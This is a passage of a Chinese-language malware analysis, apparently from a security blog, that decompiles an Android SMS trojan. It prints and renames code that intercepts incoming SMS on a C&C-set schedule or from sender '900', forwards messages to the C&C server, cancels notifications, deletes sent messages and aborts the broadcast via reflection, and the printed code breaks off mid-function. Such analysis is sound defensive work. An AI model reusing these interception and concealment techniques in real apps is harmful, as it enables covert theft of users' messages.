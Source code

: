 ```
            return;
        `}`
        return;
    `}`
    throw new AssertionError();
`}`
```

在这部分代码中，函数q和类y是未知的。至此，我们已经知道这部分的核心功能。Long j等于time_perehv的值，该值通过C&amp;C服务器的命令来设定。如果j晚于当前系统时间，那么布尔值w将被设置为true。请注意，默认情况下w被设置为false，如果收到的编号为900，那么该布尔值也将被设置为true。

如果将w设置为true，则继续执行代码，将intent的动作与接收到短信息时给出的动作进行比较。如果为true，类y将在2秒延迟后开始执行。

然后，利用短信命令，将所有短消息的内容发送到C&amp;C服务器。最后，执行函数q。

y的代码如下：

```
public final void run() `{`
    ((android.app.NotificationManager) this.context.getSystemService("notification").cancelAll();
    TelephonyManagerWrapper2.removeSentMessages(this.context, (String) this.body, this.numberTo);
`}`
```

通过使用NotificationManager（通知管理），可以取消所有通知。然后，删除发送到numberTo值的所有消息。根据该消息，可以将类y重命名为CancelAllNotificationsRunnable。<br>
函数q（在Ma类中）如下：

```
private boolean q() `{`
    try `{`
        Class.forName("android.content.Receiver").getDeclaredMethod("abortBroadcast", new Class[0]).invoke(this, new Object[0]);
    `}` catch (Throwable th) `{`
    `}`
    return true;
`}`
```

通过反射，调用abortBroadcast方法，从而从系统中删除广播。因此，我们可以将该函数重命名为abortBroadcastWrapper。

基于上面的分析，我们完全可以重写类Ma的onReceive函数，如下所示：

```
public void onReceive(Context context, Intent intent) `{`
    String intentAction;
    context.startService(new Intent(context, MainService.class));
    this.sharedPreferences = context.getSharedPreferences("PREFS_NAME", 0);
    try `{`
        intentAction = intent.getAction();
    `}` catch (Throwable th) `{`
        intentAction = "";
    `}`
    Object[] objArr = (Object[]) intent.getExtras().get("pdus");
    if (isActive || objArr != null) `{`
        SmsMessage[] smsMessageArray = new SmsMessage[objArr.length];

        long blockTimeDeadline = this.sharedPreferences.getLong("time_perehv", 0);
        if (System.currentTimeMillis() &lt; Long.valueOf(blockTimeDeadline).longValue()) `{`
            this.shouldBlock = true;
        `}`
        if (Boolean.valueOf(SmsMessage.createFromPdu((byte[]) objArr[0]).getDisplayOriginatingAddress().equalsIgnoreCase("900")).booleanValue()) `{`
            this.shouldBlock = true;
        `}`
        if (this.shouldBlock &amp;&amp; intent != null &amp;&amp; intentAction != null) `{`
            if ("android.provider.telephony.SMS_RECEIVED".compareToIgnoreCase(intentAction) == 0) `{`
```